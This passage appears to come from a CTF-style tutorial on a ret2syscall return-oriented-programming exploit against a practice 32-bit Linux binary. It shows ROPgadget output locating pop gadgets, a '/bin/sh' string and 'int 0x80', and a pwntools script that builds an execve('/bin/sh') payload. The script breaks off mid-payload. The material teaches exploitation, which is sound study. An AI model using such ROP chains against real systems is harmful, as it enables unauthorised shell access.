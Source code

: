

Here, I choose


```text
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```


This can directly control the other three registers.


In addition, we need to get the address corresponding to the /bin/sh string.


```shell
$ ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```


You can find the corresponding address, in addition, there is an address of int 0x80, as follows


```text
$ ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```


At the same time, I also found the corresponding address.


The following is the corresponding payload, where 0xb is the system call number corresponding to execve.


```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("rop")
p = elf.process()

#--------ret2syscall--------#

offset = 112
# ROPgadget --binary rop --only "pop|ret" | grep eax
pop_eax = 0x080bb196
# ROPgadget --binary rop --string "/bin/sh"
bin_sh = 0x080be408
# ROPgadget --binary rop --only "pop|ret" | grep ecx
pop_edx_ecx_ebx = 0x0806eb90
# ROPgadget --binary rop --only "int"
int_0x80 = 0x08049421

payload = flat(
    b"A" * offset,
    pop_eax, 0xb,
    pop_edx_ecx_ebx, 0, 0, bin_sh,
```